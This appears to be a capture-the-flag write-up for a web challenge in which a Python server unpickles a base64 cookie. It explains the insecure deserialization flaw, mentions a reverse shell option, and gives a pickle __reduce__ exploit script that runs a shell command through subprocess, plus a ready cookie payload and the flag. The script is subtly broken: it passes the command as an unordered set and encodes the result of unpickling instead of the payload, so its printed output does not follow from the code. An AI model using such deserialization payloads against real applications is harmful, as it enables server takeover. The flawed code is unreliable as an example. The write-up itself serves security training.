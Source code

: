 ![image](https://user-images.githubusercontent.com/63996033/231524500-ed44d2e9-71b4-4bf2-942e-b39446871141.png)

Solution:

```
This challenge uses an insecure deserialization vulnerability. Serialization in python is implemented with the pickle library.
The order is stored as a base64 encoded, pickled string in the user's cookie. 
However, the user can change the cookie to anything, so when the page depickles the data, this can result in RCE. 
To get the flag, a user can either inject a reverse shell to cat the flag from their local machine, 
or use subprocess.check_output to return the output of the command to the webpage.
```

script:

```py
import pickle
import base64
import subprocess


class RCE:
    def __reduce__(self):
        cmd = {"cat", "/flag"}
        return subprocess.check_output, (cmd,)


if __name__ == '__main__':
    data = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickle.loads(data)))
    
>>> b'gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5SPlCiMA2NhdJSMBS9mbGFnlJCFlFKULg==' > set as the cookie
```

Flag: `RS{TH3_L345T_53CUR3_P1CKL3}`
